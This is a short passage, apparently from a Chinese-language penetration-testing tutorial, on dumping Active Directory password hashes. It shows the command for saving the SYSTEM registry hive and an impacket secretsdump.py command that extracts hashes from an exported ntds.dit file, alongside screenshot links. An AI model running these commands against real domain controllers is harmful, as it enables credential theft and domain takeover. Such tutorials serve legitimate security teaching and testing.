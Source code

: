 [![](assets/1706090550-194a879f93f9fb08f5521f0afde59da4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095953-43f54688-ba5c-1.png)  
导出 ntds.dit 后，可以键 system.hive 转储，因为 system.hive 中存放着 ntds.dit 的秘钥，如果没有该密钥，将无法查看 ntds.dit 中的信息：

```plain
reg save hklm\system c:\system.hive
```

[![](assets/1706090550-bf879de51c7e8b0a0829e9c75caaa718.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100012-4f2ab7e0-ba5c-1.png)  
之后使用 impacket 导出 hash

```plain
./secretsdump.py -system /root/diskshadow/system.hive -ntds /root/diskshadow/ntds.dit LOCAL
```

[![](assets/1706090550-1ed81608cd36f9a5274ced855ae97ceb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100031-5a85ac26-ba5c-1.png)
